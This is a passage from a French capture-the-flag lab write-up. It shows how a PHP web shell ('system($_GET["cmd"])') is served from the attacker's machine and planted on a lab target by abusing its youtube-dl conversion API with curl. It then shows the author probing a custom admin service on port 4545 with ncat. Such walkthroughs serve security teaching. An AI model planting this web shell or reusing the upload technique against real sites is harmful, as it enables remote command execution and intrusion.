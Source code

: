Voici à quoi ressemblait mon script PHP :

```php
<?php
echo $_SERVER['REQUEST_METHOD'];
echo '<?php system($_GET["cmd"]); ?>';
?>
```

Et l'exécution en local :

```bash
$ youtube-dl --restrict-filenames --extract-audio --audio-format=mp3  "http://192.168.56.1/getmethod.php" -o "yolo.%(ext)s"
[generic] getmethod: Requesting header
WARNING: Falling back on generic information extractor.
[generic] getmethod: Downloading webpage
WARNING: URL could be a direct video link, returning it as such.
[download] Destination: yolo.php
[download] 100% of 33.00B in 00:00
ERROR: WARNING: unable to obtain file audio codec with ffprobe
```

Maintenant il faut se servir de l'API du site pour reproduire l'explotation :

```bash
$ curl -H "X-REQUESTED-WITH: xmlhttprequest" -XPOST  --data 'yt_url=http://192.168.56.1/getmethod.php' http://192.168.56.68/
{
  "status":1,
  "errors":"WARNING: Falling back on generic information extractor.\nWARNING: URL could be a direct video link, returning it as such.\nERROR: WARNING: unable to obtain file audio codec with ffprobe\n",
  "url_orginal":"http:\/\/192.168.56.1\/getmethod.php",
  "output":"",
  "result_url":"\/tmp\/downloads\/6389b2b8581b0.mp3"
}
```

Comme le script a la gentilesse de nous fournir l'identifiant aléatoire j'ai retrouvé mon webshell à l'emplacement `/tmp/downloads/6389b2b8581b0.php`. Enfiiiiiiin !

## git commit -m "exécute mon truc"

Je n'ai pas encore parlé du service custom sur le port 4545. Ce service offre deux choix, voici le comportement sur le premier :

```bash
$ ncat 192.168.56.68 4545 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Connected to 192.168.56.68:4545.
========== Welcome to DMV Admin ==========
Select product to update:
1) Main site
2) DMV Admin
other) Exit
1
Output:
From ssh://127.0.0.1/home/developerdmv/site
 * branch            master     -> FETCH_HEAD
Already up to date.
```
